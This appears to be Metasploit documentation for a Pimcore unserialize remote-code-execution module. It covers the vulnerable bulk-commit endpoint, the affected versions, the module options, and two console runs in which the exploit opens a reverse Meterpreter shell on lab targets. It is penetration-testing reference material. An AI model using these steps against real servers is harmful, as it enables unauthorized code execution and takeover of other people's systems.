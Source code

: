 ## Description

This module exploits a PHP (unserialize()) in Pimcore before 5.7.1 to execute arbitrary code. An authenticated user with "classes" permission could exploit the vulnerability.

The vulnerability exists in the "ClassController.php" class, where the "bulk-commit" method make it possible to exploit the unserialize function when passing untrusted values in "data" parameter.

Tested on Pimcore 5.4.0-5.4.4, 5.5.1-5.6.6 with the Symfony unserialize payload.

Tested on Pimcore 4.0.0-4.6.5 with the Zend unserialize payload.

## Vulnerable Application

Affecting Pimcore, version 5.x <= 5.6.6 and 4.x.

## Verification Steps

Set up a default installation of Pimcore 4.x or 5.x (e.g.: `composer create-project pimcore/skeleton my-project` for the 5.x branch) as described on [Pimcore Installation documentation](https://pimcore.com/docs/5.x/Development_Documentation/Getting_Started/Installation.html) then:

1. Start `msfconsole`
2. `use exploit/multi/http/pimcore_unserialize_rce`
3. `set RHOST <IP>`
4. `set USERNAME <USERNAME>`
5. `set PASSWORD <PASSWORD>`
6. `check`
7. You should see `The target service is running, but could not be validated.`
8. `exploit`
9. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to Pimcore installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenarios

### Tested on Pimcore 5.6.6

```
msf > use exploit/multi/http/pimcore_unserialize_rce 
msf exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf exploit(multi/http/pimcore_unserialize_rce) > set rport 8566
rport => 8566
msf exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf exploit(multi/http/pimcore_unserialize_rce) > set password pimcore
password => pimcore
msf exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8566 - The target service is running, but could not be validated.
msf exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:pimcore
[*] Pimcore version: 5.6.6
[*] Pimcore build: 9722d19576f9e49969d4a3708e045fa481eaad02
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/var/tmp/bulk-import.tmp
[*] Selected payload: Pimcore 5.x (Symfony unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:34128) at 2019-04-07 12:04:08 +0200
[!] This exploit may require manual cleanup of '/var/www/html/var/tmp/bulk-import.tmp' on the target

meterpreter > 
[+] Deleted /var/www/html/var/tmp/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/pimcore_unserialize_rce) > 
```

### Tested on Pimcore 4.6.5

```
msf > use exploit/multi/http/pimcore_unserialize_rce 
msf exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf exploit(multi/http/pimcore_unserialize_rce) > set rport 8465
rport => 8465
msf exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf exploit(multi/http/pimcore_unserialize_rce) > set password P1mc0r3_4dm1n
password => P1mc0r3_4dm1n
msf exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8465 - The target service is running, but could not be validated.
msf exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:P1mc0r3_4dm1n
[*] Pimcore version: 4.6.5
[*] Pimcore build: 4123
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/website/var/system/bulk-import.tmp
[*] Selected payload: Pimcore 4.x (Zend unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:57882) at 2019-04-07 12:00:20 +0200
[+] Deleted /var/www/html/website/var/system/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/pimcore_unserialize_rce) > 
```
